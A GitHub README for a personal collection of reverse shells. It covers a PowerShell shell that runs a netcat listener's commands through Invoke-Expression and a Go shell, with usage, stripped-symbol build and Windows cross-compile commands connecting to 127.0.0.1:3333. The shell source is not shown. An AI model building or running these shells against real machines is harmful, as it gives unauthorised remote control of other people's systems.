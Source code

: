 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1</code>


<code>pwsh_revshell -ip 127.0.0.1 -port 3333</code>

# Golang

Golang reverse shell. Change /bin/bash string to powershell,cmd,/bin/sh, or whatever shell for whatever OS you need.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:
<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>
